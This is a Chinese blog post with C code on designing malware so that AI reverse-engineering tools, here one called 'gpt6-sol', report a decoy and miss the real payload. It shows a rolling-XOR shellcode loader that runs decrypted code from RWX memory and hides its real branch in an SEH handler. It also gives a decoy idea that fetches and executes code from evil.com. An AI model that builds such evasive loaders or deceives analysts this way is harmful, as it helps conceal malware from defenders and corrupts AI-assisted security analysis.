



前两天看到了[防止自己的二进制文件被AI一键逆向](https://key08.com/index.php/2026/08/23/3296.html)的思路, 一直觉得很有意思(推荐去看看和自己动手试试). 现在主流在拿ai做逆向, 源码分析, 漏洞挖掘和利用, 看起来效果都非常好, 让人一定程度上怀疑未来手工分析的意义. 但要是以后程序和代码部署更多的针对性防御ai的手段, 也许会有变数, 所以我认为防御ai的手段也是一个值得研究的方向

# 具体anti-ai逆向手段

文中主要提及两种方式, 一是用错误诱饵引诱ai上钩, 另一是通过足够复杂的加密来让ai减少对解密真实目的的尝试意愿. 这两者结合, 我认为达到的效果是这样的, ai认为真实目的的解密比较复杂, 解密意愿并不强; 结合上已经有了一个错误目的可以拿来给人类汇报(或者说吸引了ai的注意力), 最终ai只汇报了我们想要ai汇报的内容.
> 试了下文中提到的多项式自回归shellcode, 但还是很轻松被ai破解. 不清楚文中具体是怎么做到减少ai对解密真实目的的尝试意愿的. 所以我的尝试主要放在吸引ai注意力这块了

# 思路上的小问题以及改良

个人认为文中提到的思路有两个小问题
1. 作者指出可以用运行时变量来防止逆向(如样本的运行时间段), 只有正确的密钥/seed才能成功解密恶意代码, 从而隐藏真实目的. 如果我们要求使用正确样本运行时间段才能成功解密我们的恶意代码, 就需要人为控制执行该样本的时间, 这样的话使用场景就相对受限.
> 如果是需要人为将正确的key设为参数才能正确执行, 那分明就是把部分信息隐藏在了二进制程序之外吧(?), 这和防ai逆向有什么关系

2. 文章中使用ctf作为注意力水坑来吸引ai的注意力, 这么做也许能骗过ai或者传统的自动分析系统, 但如果ai或人类研究员明确知道该样本和ctf没关系, 就是恶意代码的情况下, 显然是不管用的.

## 更好的运行时变量(?)

关于第一点的解法应该不少, 我想到的解法是使用类似如下的代码结构(也许还有很多别的解法, 就当作是抛砖引玉了). `__try`是windows的seh异常处理机制, 可以看看[windows seh](https://dbgtf.org/winpwn3/)或者是别的资料.

- 我们的puzzle代码需要用一个seed来滚动异或解密, 在`64bit`范围中只有一个正确key能成功解密. 首先正常环境中不会有SEED环境变量, 就算有, 也几乎不可能命中正确key, 所以我们可以认为puzzle代码被解密后必然是乱码. 从而在执行时隐式地抛出异常. 就能比较隐蔽且可靠地命中我们真正想走的`__except`分支.
- 这里的seed故意设计在一个可以通过爆破来解密的`64bit`范围, 目的是让ai"更深的"掉进这个坑, 花心思去爆破这个seed. 这里的尝试和细节在下面补充.
- `__except (seed == dead ? EXCEPTION_CONTINUE_EXECUTION : EXCEPTION_EXECUTE_HANDLER)`不那么重要. 但放在这说不定也能起一定混淆作用. 由于sead在`__try`解密地过程中几乎必然会变成`INIT_SEED`之外的值, 所以该表达式结果为`EXCEPTION_EXECUTE_HANDLER`, 也就是由当前`__except`来处理异常.

```c
#define INIT_SEED 0xdead1337beef1337

int
main (int argc, char *argv[])
{
  uint64_t seed = INIT_SEED;
  char seed_s[0x20];
  if (GetEnvironmentVariableA ("SEED", seed_s, 0x20))
    seed = strtoull (seed_s, NULL, 0);
  printf ("%p\n", (void *)seed);

  __try
    {
      uint8_t *text
          = VirtualAlloc (NULL, sizeof (puzzle_text) + 1,
                          MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
      rolling_xor (text, puzzle_text, sizeof (puzzle_text), &seed);
      int (*func) () = (int (*) ())text;
      int ret = func ();
      return 0;
    }
  __except (seed == INIT_SEED ? EXCEPTION_CONTINUE_EXECUTION
                              : EXCEPTION_EXECUTE_HANDLER)
    {
      generate ();
      return 2;
    }
}
```
### 微调seed范围来更好的拦住ai

最开始我设置的seed范围是16bit, 我猜测一个`0-0xffff`范围的爆破能够恰到好处的吸引ai注意力, 并且给他一个能解出的错误解来提交为正确答案. 如果太难, 我担心ai会意识到正确的seed值并不重要, 先分析我们想隐藏的`__except`路径. 但事实证明这至少对于`gpt6-sol`还是太简单了, 不足以完全消耗掉他的分析意愿; 以及在用户提示词上也有一定要求, 如果用户要求"完整详细分析, 不要遗漏细节"这种话, 会导致ai更容易从我们的坑中爬出来继续分析.

所以我试了下32bit, 这就能比较好的消耗掉ai的分析意愿了. 差别在于16bit下, 可以直接用`0-0xffff`范围的seed爆破全文, 找到合理的明文, 而32bit下用`0-0xffffffff`的key直接爆破全文不现实, ai会先在密文的前32bit上尝试`0-ffffffff`的key爆破, 拿结果和合法x64机器码对比, 缩小范围后再继续推广到全文, 找到正确的key


顺手就试了下64bit, 会不会出现我猜测的那种由于爆破seed太难, 导致ai并没有成功被吸引走注意力的情况. 但很可惜`gpt6-sol`还是轻松解出了密钥. 总体来说差别并不大. 思路仍然是用合法x64机器码来缩小范围后再推广到全文

```c
void
rolling_xor (uint8_t *output, uint8_t *input, uint64_t size, uint64_t *seed)
{
  for (uint64_t i = 0; i < (size + 1) / sizeof (uint64_t); i++)
    {
      ((uint64_t *)output)[i] = ((uint64_t *)input)[i] ^ *seed;
      *seed = (*seed + ((uint64_t *)input)[i]);
    }
}
```

再试了下更高强度的滚动异或加密, 区别是让下一步的解密依赖上一步的解密结果, 使得更难通过猜测合法x64机器码的方式来解出密钥. 但这里似乎由于强度给太过了, 导致`gpt6-sol`解决诱饵之后居然继续分析异常分支, 隐藏异常分支的目的也就失败了

```c
void
rolling_xor (uint8_t *output, const uint8_t *input, uint64_t size,
             uint64_t *seed)
{
  memcpy (output, input, size);
  for (uint64_t i = 0; i < size; i++)
    {
      for (uint64_t j = 0; j < 8 && j < size - i; j++)
        output[i + j] ^= (uint8_t)(*seed >> (8 * j));
      *seed += output[i];
    }
}
```

出于好奇问了下`gpt6-sol`是如何解密的, 看到这里的思路对异或这种简单加密就已经是降维打击了, 比较难再去反制. 加上我认为这也已经超过了"让ai刚刚好掉进坑里"的程度(证据是ai在解密后继续挖异常分支), 所以没有尝试更复杂的加密算法


> 总得来说我认为需要给ai一个难度恰到好处的解密. 其实这点对于人类也很好理解, 做陷阱题时如果发现陷阱太简单可能会怀疑是不是因为存在更深的正确答案, 反而是那种难度刚刚好的陷阱更容易掉进去

## 更好的注意力水坑

第二点的解法. 我猜测用一个恶意, 但不是实际目的的代码来作为诱饵就能有更好的效果. 举例来说, 诱饵恶意代码是从`https://evil.com/c2`拉取c2落地文件并执行, 但我们实际上真正执行的代码是从`https://evil.com/shellcode`拉取shellcode直接在当前进程执行, 即使是经验丰富的人类研究员可能也会被忽悠的愣一下, 更别提ai了.

试想你是一个人类研究员, 确定手上的样本有恶意代码, 先丢给了ai简单分析一下. 如果ai告诉你这个样本是ctf题目, 那肯定不会信对吧; 但如果ai头头是道地分析出了我们伪造的恶意目的, 那也许真的能误导你一段时间.
> 但我猜测用ctf做诱饵也有个好处, 比如得出一个错误flag会让ai对完成目标的评估大大上升, 从而提高停下来的可能

# 项目仓库

开个仓库留档, 以后也能拿来参考下. `https://github.com/dbgbgtf1/anti-ai-reverse`
